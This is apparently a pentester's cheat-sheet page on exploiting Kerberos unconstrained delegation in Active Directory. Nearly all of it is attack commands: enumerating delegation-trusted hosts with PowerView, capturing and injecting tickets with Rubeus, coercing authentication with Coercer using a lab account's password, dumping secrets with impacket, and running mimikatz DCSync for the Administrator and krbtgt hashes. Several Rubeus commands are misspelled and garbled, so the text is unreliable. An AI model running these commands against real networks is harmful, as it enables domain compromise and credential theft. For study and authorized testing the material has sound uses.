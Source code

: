 # Kerberos Delegation

## **Kerberos Unconstrained Delegation**

> General/Basic or Unconstrained Delegation which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.

**Required**

1. Define Unconstrained Delegation Machines
2. we need to user who has Access to the machine

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

#### define Unconstrained Machines

{% code overflow="wrap" %}
```powershell
#using PowerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname
# using Import-Module ActiveDirectory 
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**Hint**</mark>**: discover users that who you have WriteDACL permission on there or do Enumeration to get user**
{% endhint %}

Rubeus

{% embed url="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries" %}

```powershell
.\Rubeus.exe ptt /tikcet: base64.exe  monitor /monitornterval:10 /targetuser$ /nowarp
.\Rubeus.exe ptt /tikcet: base64 
#OR
cat b64.txt|base64 -d > ticket.kirbi 
```

### Coercer

{% code overflow="wrap" %}
```bash
coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue

```
{% endcode %}

{% code overflow="wrap" %}
```bash
sudo impacket-secretsdump -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```
{% endcode %}

mimikatz

{% code overflow="wrap" %}
```powershell
mimikatz.exe "privilege::debug" "kerberos::ptt PDC.kirbi" "lsadump::dcsync /domain:hacktor.local /user:Administrator" "exit"
#Once the ticket is injected, run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
{% endcode %}

